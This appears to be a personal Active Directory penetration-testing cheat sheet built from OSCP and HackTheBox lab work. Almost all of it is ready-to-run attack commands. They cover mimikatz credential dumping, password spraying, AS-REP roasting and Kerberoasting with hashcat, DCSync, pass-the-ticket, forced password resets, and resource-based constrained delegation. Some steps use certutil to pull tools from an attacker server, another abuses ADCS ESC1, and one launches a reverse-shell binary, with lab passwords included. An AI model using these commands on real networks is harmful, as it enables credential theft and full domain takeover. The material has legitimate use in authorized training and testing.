 `ldapdomaindump -d 'resourced.local' ldap://192.168.211.175`

`ldapdomaindump -u 'authority.htb\svc_ldap' -p 'lDaP_1n_th3_cle4r!' -d 'authority.htb' ldaps://10.129.144.243`

`iwr -UseBasicParsing http://192.168.45.154:5050/SharpHound.ps1 -OutFile .\SharpHound.ps1`

SharpHound

`iwr -UseBasicParsing http://192.168.45.154:5050/SharpHound.ps1 -OutFile .\SharpHound.ps1`

`Import-Module .\SharpHound.ps1`

`Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corpaudit"`

SMB - IPC$ Read (userenum)

`impacket-lookupsid anonymous@192.168.225.30`

Dump hashes (require local admin)

`.\mimikatz.exe`

`privilege::debug`

`sekurlsa::logonpasswords`

`.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "lsadump::sam" "exit"`

Password Policy

`net accounts`


Password Spraying

`crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success`

`.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"`

*If you receive a network error, make sure that the encoding of **usernames.txt** is ANSI. You can use Notepad's Save As functionality to change the encoding.*

## **AS-REP Roasting**

Get hashes (hashcat -a 0 -m 18200 )

From Linux (pete is our compromised user whose password we will need)

`impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete`

From Victim (Connected to AD)

`.\Rubeus.exe asreproast /nowrap`

```jsx
check for kerboras without having users
  impacket-GetNPUsers HTB.LOCAL/ -dc-ip 10.10.10.161 -request
If we have a vaild users list from ldap or enum4linux
  impacket-GetNPUsers HTB.LOCAL/ -dc-ip 10.10.10.161 -no-pass -usersfile users.txt
```

Crack AS-REP Roasting

`sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

## Kerbroasting

`sudo *ntpdate DCIP*`

hashcat 13100

From Linux (pete is our compromised account)

`sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete`

From victim 

`.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`

`sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`



*If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate[3](https://portal.offsec.com/courses/PEN-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_442-3) or rdate[4](https://portal.offsec.com/courses/PEN-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_442-4) to do so.*

`impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`

To get our user SID

`whoami /user`

DSSync 

`.\mimikatz.exe`

`lsadump::dcsync /user:corp\dave`

`lsadump::dcsync /user:corp\Administrator`

`impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`

Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 'C:\xampp\htdocs\uploads\rev2.exe'


Pass The Ticket

mimikatz

`privilege::debug`

`sekurlsa::tickets /export`

then exit and run on powershell

`dir *.kirbi`

we want a user with access to web04 for example

(back to mimikatz)

`kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi`

now exit and check with klist just to ensure it worked

NOW

`ls \\web04\backup`

ticket 

└─$ KRB5CCNAME=ticket.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass


GENERIC ALL

```jsx
net rpc password "CHRISTOPHER.LEWIS" "newP@ssword2022" -U "nagoya-industries.com"/"svc_helpdesk"%"U299iYRmikYTHDbPbxPoYYfa2j4x4cdg" -S 192.168.211.21
OR
bloodyAD  -u rsmith -p IHateEric2 -d lab.trusted.vl --host 10.10.194.134 set password ewalters zoz.1234
```

GENERIC ALL

`net user username Password1`

FORCE CHANGE PASSWORD

```jsx
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
[2:25 AM]
Set-DomainUserPassword -Identity 'benjamin' -AccountPassword $NewPassword
```

GENERIC WRITE

`python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'`
then crack the hash


If we have generic all (Resource-Based Constrained Delegation)

ON UR MACHINE :

```jsx
git clone https://github.com/SecureAuthCorp/impacket.git
git clone https://github.com/Kevin-Robertson/Powermad.git
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries (this for rubeus binary)
(cp Powermad/Powermad.ps1 & Rubeus.exe to the same dir)
python -m http.server 9999
```

ON TARGET MACHINE :

```jsx
certutil -urlcache -split -f http://10.10.14.29:9999/Powermad.ps1 pm.ps1
certutil -urlcache -split -f http://10.10.14.29:9999/Rubeus.exe rb.exe
Import-Module ./pm.ps1
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
./rb.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
(save all the result into a file (needed later))
```

ON UR MACHINE :

```jsx
cd ~/htb/Support/impacket/examples
python getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
export KRB5CCNAME=administrator.ccache
(if getting error with administrator.ccache not found, rename : mv administratorblablablabla.ccache administrator.ccache)
python smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```

ADCS

`certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable`

ESC1:

`impacket-addcomputer AUTHORITY.HTB/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name computer_name -computer-pass computer_password`

`certipy req -u 'computer_name$' -p computer_password -ca AUTHORITY-CA -template CorpVPN -upn administrator@AUTHORITY.HTB -dns AUTHORITY.HTB -dc-ip 10.10.11.222`

Now get the hash of admin OR grant your user DCSync priv

`certipy auth -pfx administrator_authority.pfx -domain AUTHORITY.HTB -username administrator -dc-ip 10.10.11.222`

OR when you get (KDC_ERR_PADATA_TYPE_NOSUPP)

`python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain AUTHORITY.HTB -dc-ip "10.10.11.222" -target svc_ldap -elevate
impacket-secretsdump svc_ldap@AUTHORITY.HTB`

`/home/kali/go/bin/ldapnomnom --input /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --output multiservers.txt --dnsdomain ge.local --maxservers 128 --parallel 128 --server 192.168.5.252`

`bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all`

find usernames using ldap

  `ldapsearch -x -H ldap://10.10.10.161 -D '' -w '' -b "DC=htb,DC=local" | grep userPrincipalName:`
  
also grep for svc accounts

  `ldapsearch -x -H ldap://10.10.10.161 -D '' -w '' -b "DC=htb,DC=local" | grep svc `
  
check for password in description

  `ldapsearch -x -H ldap://10.10.10.169 -D '' -w '' -b "DC=megabank,DC=local" | grep -i description:`

try the password for all users

  `kerbrute passwordspray users.txt 'Welcome123!' -d megabank.local --dc 10.10.10.169`
